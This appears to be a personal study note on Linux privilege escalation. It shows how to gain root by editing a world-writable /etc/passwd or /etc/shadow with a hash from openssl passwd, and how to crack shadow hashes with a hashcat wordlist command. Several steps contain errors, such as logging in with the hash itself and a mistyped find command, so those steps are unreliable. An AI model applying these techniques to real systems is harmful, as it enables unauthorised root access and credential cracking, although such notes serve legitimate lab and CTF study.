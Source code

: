 ```yaml
---
tags:
  - hashcat
  - openssl
---
```


## Passwd file
When access normal user and cann't access root, check file `/etc/passwd`, use command
```bash
ls -l /etc/passwd
```

the result show:
```
-rwxrwxrwx 1 root root ...
```

that the it mean all user can edit this file and show content
```bash
root:x:1001:1001:root,,,:/home/root:/bin/bash
[--] - [--] [--] [-----] [--------] [--------]
|    |   |    |     |         |        |
|    |   |    |     |         |        +-> 7. Login shell
|    |   |    |     |         +----------> 6. Home directory
|    |   |    |     +--------------------> 5. GECOS
|    |   |    +--------------------------> 4. GID
|    |   +-------------------------------> 3. UID
|    +-----------------------------------> 2. Password
+----------------------------------------> 1. Username

```

So i am going to be able to replace this x with the hashed password, that the encrypt password created by command:
```bash
openssl passwd tai123
$1$QnYxZaN7$J52ngekQZLjNSXNvceNut0
```

replace `x` become `$1$QnYxZaN7$J52ngekQZLjNSXNvceNut0` 

final access root with password `$1$QnYxZaN7$J52ngekQZLjNSXNvceNut0`

> Find file have permisstions 777  and one way to clear file show `Permission denied` use comand `find / -type f - perm 777 2>/<name-file>`   

## Shadow file
Check permission file with `ls -l` if such as
```bash
-rwxrwxrwx 1 root shadow ...
```

Show content file:

```bash
mark:$6$.n.:17736:0:99999:7:::
[--] [----] [---] - [---] ----
|      |      |   |   |   |||+-----------> 9. Unused
|      |      |   |   |   ||+------------> 8. Expiration date
|      |      |   |   |   |+-------------> 7. Inactivity period
|      |      |   |   |   +--------------> 6. Warning period
|      |      |   |   +------------------> 5. Maximum password age
|      |      |   +----------------------> 4. Minimum password age
|      |      +--------------------------> 3. Last password change
|      +---------------------------------> 2. Encrypted Password
+----------------------------------------> 1. Username
```

Because i can change content so replace encrypted password such as `$6$.n.` become my encrypted password created with command

```bash 
openssl passwd -1 -salt <username> <password>
$1$mark$J52ngekQZLjNSXNvceNut0
```

### Case: Cann't change password
Create the files `hashpass` and `outputpass`.  
Copy the hashed password into `hashpass`.  
Use `hashcat` to crack the password:

```bash
hashcat -m 1800 -a 0 -o outputpass --remove hashpass SecList/Password/Common-Credentials/500-worst-passwords.txt
```

Result recorded in `hashpass`

## SUID